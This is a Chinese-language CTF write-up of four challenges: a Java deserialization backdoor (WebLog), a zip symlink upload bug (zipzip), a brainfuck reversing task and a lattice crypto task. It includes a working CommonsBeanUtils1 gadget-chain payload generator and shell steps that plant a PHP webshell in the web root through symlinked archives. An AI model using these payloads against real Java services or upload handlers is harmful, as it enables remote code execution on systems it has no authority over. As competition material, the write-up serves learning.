





# WebLog

访问发现是个文件下载，下载的是日志文件，目录穿越不太好传，尝试拿bp爆破一下日期来下载Log，发现了一个jar：



访问`?logname=cb-0.0.1-SNAPSHOT.jar`把jar包下载下来，发现存在一个反序列化的后门：

```java
    @ResponseBody
    @RequestMapping({"/bZdWASYu4nN3obRiLpqKCeS8erTZrdxx/parseUser"})
    public String getUser(String user) throws Exception {
        byte[] userBytes = Base64.getDecoder().decode(user.getBytes());
        ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(userBytes));
        User userObj = (User)in.readObject();
        return userObj.getUserNicename();
    }
```

看一下pom.xml，有个cb：

```xml
        <dependency>
            <groupId>commons-beanutils</groupId>
            <artifactId>commons-beanutils</artifactId>
            <version>1.8.2</version>
        </dependency>
```

直接反序列化打就行了，直接拿前几天 陇原战疫比赛的那个EasyJaba那题的POC，把链子的构造那部分改成cb的，然后直接打过去：

```java
package com.summer.cb1;

import com.summer.util.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.util.Base64;
import java.util.Collections;
import java.util.PriorityQueue;

public class CommonsBeanUtils1 {
    public static void main(String[] args) throws Exception{
        new CommonsBeanUtils1().getShiroPayload();
    }
    public static void cb1() throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator("outputProperties");

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);


        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        System.out.println(new String(Base64.getEncoder().encode(bytes)));
    }
    public byte[] getShiroPayload() throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator("outputProperties",String.CASE_INSENSITIVE_ORDER);
        //BeanComparator beanComparator = new BeanComparator("outputProperties", Collections.reverseOrder());

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);


        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
        byte[] bytes = SerializeUtil.serialize(priorityQueue);

        System.out.println(new String(Base64.getEncoder().encode(bytes)));
        //SerializeUtil.unserialize(bytes);
        return bytes;
    }

}

```





# zipzip

上传压缩包回显被传到了`/tmp/uploads`目录下面，尝试拿010工具构造在解压缩的时候可以目录穿越的压缩文件，但是没有成功。查了一下才想到可以利用软连接，但是要想办法的是rce，也就是其实还是得解压缩之后把马解压到web目录下面，这时候想到了软连接目录。

先创建一个指向`/var/www/html`的软链接：

```shell
root@VM-0-6-ubuntu:~# ln -s /var/www/html feng
```

然后再把它压缩，使用`-y`，这样在压缩的时候可以保存软链接：

```shell
root@VM-0-6-ubuntu:~# zip -y feng1.zip feng
```

在feng目录下面写个马，然后再把这个feng目录不带`-y`的压缩：

```shell
root@VM-0-6-ubuntu:~# ls -al feng
lrwxrwxrwx 1 root root 13 Nov 13 18:33 feng -> /var/www/html
root@VM-0-6-ubuntu:~# zip -r feng2.zip feng
  adding: feng/ (stored 0%)
  adding: feng/.feng.php (stored 0%)
```

这时候的feng2.zip是这样，feng是个正常的目录，目录下面有个马：



然后先上传feng1.zip，再上传feng2.zip，这时候首先应该那边有了`/tmp/uploads/feng`，这是个指向`/var/www/html`的软连接。然后再上传feng2.zip进行解压的时候，实际上应该是把.feng.php解压到`/tmp/uploads/feng`这个目录下，但这已经是一个软链接了，因此实际上应该这个马被移动到了web目录了。

然后rce拿flag即可：



# PRESS

函数逻辑如下



Sub_4007b6 发现执行代码

++++++++++[->++++++++++++++++<],[->-<]>>[-]+++++<*++.<

Sub_40094b 里有执行逻辑

重复执行该代码56次，完成序列加密

先每次加10重复10次，再减flag，乘5加2，得到输出序列

```python
a=[0x0,0x60,0xe1,0x2f,0x5,0x79,0x80,0x5e,0xe1,0xc5,0x57,0x8b,0xcc,0x5c,0x9a,0x67,0x26,0x1e,0x19,0xaf,0x93,0x3f,0x9,0xe2,0x97,0x99,0x7b,0x86,0xc1,0x25,0x87,0xd6,0xc,0xdd,0xcf,0x2a,0xf5,0x65,0xe,0x73,0x59,0x1d,0x5f,0xa4,0xf4,0x65,0x68,0xd1,0x3d,0xd2,0x98,0x5d,0xfe,0x5b,0xef,0x5b,0xcc]
for i in range(56):
    for j in range(33,128,1):
        flag=a[i]
        flag=(flag+0xa0)%256-j
        if(flag<0):
            flag+=256
        flag=(flag*5+2)%256
        #print(flag)
        if(flag==a[i+1]):
            print(chr(j),end="")
            break

```

flag{de0bd67e-6d25-87d7-1876-ad131a6165cb}


# GeGe

魔改https://xz.aliyun.com/t/7163的题目，改了p的位数，然后多乘了一个f


两边同时乘f然后经过处理再取模g之后得到


所以把之前那题的exp改一下，改成inverse(f*f, g)：

```python
# sage
from Crypto.Util.number import *
h = 3967900409518491437091166715380802161532841159072519563471354336400750930009970177101953304861954502146570721506995224520631716261108071684882841102381144720177664434981608584075201907891964214604246219441325377602163957172642582158192223452845671007585556951922415200415538060247456213608112360361636912703380306386439846269645696750929811607783895294670639202472465920599542568227657152922843001792754116981992696203788298740550812661583820191877594185184758074771316815650833195023325150218113883046328740408517222933980589974912467363367727038230703152354450353199257411964288022409128890352346036423792759938468964462267528727695183747947515480432786669353434638860350849296620606820894819933050645748656981993408399675189724419997805599649975500093890450393421897803267909569938850674774386012819838940544502656293639875120854745249463561940935651895728242282430164407574626178693654713011323376912585958110558532953333
p = 4407206782832544188667944201727813617189883940490534227436068867901196311508151544316989531306678865408607390128649278629254128753967046691736522108356971272311308455619879297358588727267184200777923695048248757115057072357087881336680504033511958280710547178971268670442650871890760916203109226852889599638484429889898210426540567794020013920566784973281560628666918122674783539653720295629054898529900882965691587718212291373734218555167591690910246380516121338139063419587750344469214004539520017140593342859857394308703001939640899189432836134392830208318268131639318655382175643272565186884496188876341460968563623529229713790076050095498053846983536874648190033735162809614805624209827336432223553914651838063614534617044557310972056169869738746432924853953258079006936103497626054364115282007843847693813896856977882285910369660539092462408790126385881581833165309032853389777355480169212478669139225609058338565029211
c = 4052491539376955553220568757544621659293304958837707160681090710624505862889512520190589879197831394720145909992216099963759496125523078969015706069688556356682711471641851937470179182960755800968587551608595725470945584970094036299764623894583379909329996337429067328575804567222496890803396234507278490116354758303807070775249711087938549824010697869930856205244006491475201993228121418890520174179969294094963249013786611889790711801269524919695653453576043288934196952437164829830756439734795068980207758771052483500272264363028346668629397497794792110170275173209377114274164087320163340547019935562316429227119346802124620682293405375798340275679831750482339301440428527223801872439611461272229275824994734898078664180541096159146759378804836952981089673755590353588900522455968721971944276318473421193690310601002295637581030417570868955379815661133148339565983621730401675643094909263098778572081973142223744746526672
v1 = vector(ZZ, [1, h])

v2 = vector(ZZ, [0, p])

m = matrix([v1,v2]);

shortest_vector = m.LLL()[0]

f, g = -shortest_vector

a = f*c % p % g

m = a * inverse_mod(f*f, g) % g

print(long_to_bytes(m))
```


